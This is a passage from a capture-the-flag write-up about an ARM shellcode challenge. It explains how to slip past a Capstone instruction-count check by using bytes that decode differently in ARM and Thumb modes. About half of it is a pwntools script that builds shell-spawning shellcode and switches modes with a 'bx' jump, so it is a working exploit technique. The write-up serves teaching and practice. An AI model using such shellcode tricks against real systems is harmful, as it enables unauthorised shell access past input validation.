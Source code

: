 The issue here is that capstone, which the challenge uses, stops when it reaches a `bx`. That means we cannot instantly switch to thumb mode, because capstone stops before it reaches that. It's not inherently bad, as we dont care about the disassembly process in itself, but `chal.c` has this killer:
```c
if (count != sz / 4) {
	die("*** Incorect number of disassembled instructions. Make sure instructions are correct. ***");
}
```

My solution is that we have to first run our `svc #0` as arm, then as our last instruction, bx back up there into thumb mode. 

We know `svc #0` is equivalent to thumb `df 00`. I just play around, adding two random values:
```asm
// first lets make sure it's not svc in arm mode
00 df 00 00    andeq sp, r0, r0, lsl #30
// ok, thats fine, now lets make sure it's fine in thumb mode too
00 df          svc #0
00 00          movs r0, r0
// yup!
```
So when we initially run over it, it's going to do some `and` operation, hopefully just setting some flags? Might modify `sp` but once we do the syscall we get a shell, so I'm not worried about side effects later.

# Full code
I wrote this little script which generates the shellcode.
```python
from pwn import *


# make the shellcode

context.arch = "arm"

sc = shellcraft.arm.linux.sh()
sc = asm(sc)

#print(disasm(sc))

# remove svc at the end
sc = sc[:-4]

# this becomes "andeq sp, r0, r0, lsl #30"
sc += asm("svc #0; movs r0, r0", arch="thumb")

# and now we need to jump back up.
# NORMAL CODE:
# > add r0, pc, #1
# > bx r0
# we want to jump further back.
# we want to unskip our "NORMAL CODE" instructions, AND then jump 4 bytes back more, to the beginning of svc.
# #1 - 8 - 4 = -11
# FIXED CODE:
# > sub r9, pc, #11
# > bx r9

sc += asm("sub r9, pc, #11; bx r9")


# add `ret` for testing
```